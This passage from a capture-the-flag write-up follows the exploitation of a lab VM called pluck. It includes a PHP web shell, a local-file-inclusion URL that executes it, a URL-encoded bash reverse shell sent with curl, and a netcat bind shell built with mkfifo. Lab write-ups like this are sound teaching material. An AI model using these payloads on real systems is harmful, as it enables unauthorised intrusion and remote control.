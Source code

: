 ```sh
root@kali:~/pluck/backup/home/paul/keys# ssh -i id_key4 paul@pluck
```

# Exploitaiton Phase

The SSH shell was restricted, shell access allowed for a handful of options, three of which stood out. The capability to list directory contents, change directories, and edit files made me think that we could write a PHP shell and include it using LFI. Pauls home directory was writable, so the following shell was written.

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

This was not stealthy, we could have also used base64 commands, but this would do. To verify we had code execution, the following URL was used to see what context the shell was running under.

```sh
http://192.168.56.101/index.php?page=../../../../../home/paul/shell.php&cmd=id
```

We now had a quasi shell, next we had to get a fully interactive shell. Due to some VM issues this took longer than it should have. The first attempt was to use a reverse bash shell.

```sh
curl 'http://192.168.56.101/index.php?page=../../../../../home/paul/shell.php&cmd=%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp %2F192.168.56.1%2F443%200%3E%261' -vvv
```

Since this failed, a different approach was taken to create a TCP pipe and use that to make a bash bind shell.

```sh
mkfifo /tmp/mypipe && \
cat /tmp/mypipe|/bin/bash 2>&1|nc -l 6000 >/tmp/mypipe
```

Now the first interactive shell, to get a better shell we entered interactive mode using the bash command.

```sh
/bin/bash -i 
```

# Post Exploitation
At this point we had a low privilege shell under the context of www-data. MySQL was not accessible, so that idea was not an option for privilege escalation. To determine if any kernel exploits could be used, we check the version using uname.

```sh
uname -a
```

This indicated that the kernel was generic 4.8.0-22, so several failed exploit attempts were conducted. This exploits that failed are listed below.
